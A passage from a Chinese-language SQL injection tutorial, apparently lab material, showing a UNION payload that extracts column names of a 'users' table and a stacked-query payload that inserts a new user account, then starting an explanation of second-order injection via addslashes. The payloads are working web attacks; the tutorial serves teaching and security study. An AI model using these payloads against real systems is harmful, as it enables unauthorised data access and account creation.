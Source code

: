 获取字段名

```sql
-1' union select 1,2,(
select group_concat(column_name) from information_schema.columns where table_name='users' limit 1
)--+
```

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675306838150-63130300-e34d-41a7-b141-59c96daac5b6.png)

在知道表和列的情况下，手动添加用户，如果有管理员表，还可以直接添加管理员

```sql
-1';insert into users(id,username,password)values(1000,'eagleslab','123456')--+
```

下面访问id为1000的用户

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675307102677-2fa1d677-263b-4c50-ad64-c839e66ee763.png)

# 二次注入

二次注入漏洞是一种在 Web 应用程序中广泛存在的安全漏洞形式。相对于一次注入漏洞而言，二次注入漏洞更难以被发现，但是它却具有与一次注入攻击漏洞相同的攻击威力。

二次注入的原理，在第一次进行数据库插入数据的时候，仅仅只是使用了addslashes 或者是借助 get_magic_quotes_gpc 对其中的特殊字符进行了转义，但是 addslashes 有一个特点就是虽然参数在过滤后会添加 “\” 进行转义，但是“\”并不会插入到数据库中，在写入数据库的时候还是保留了原来的数据。
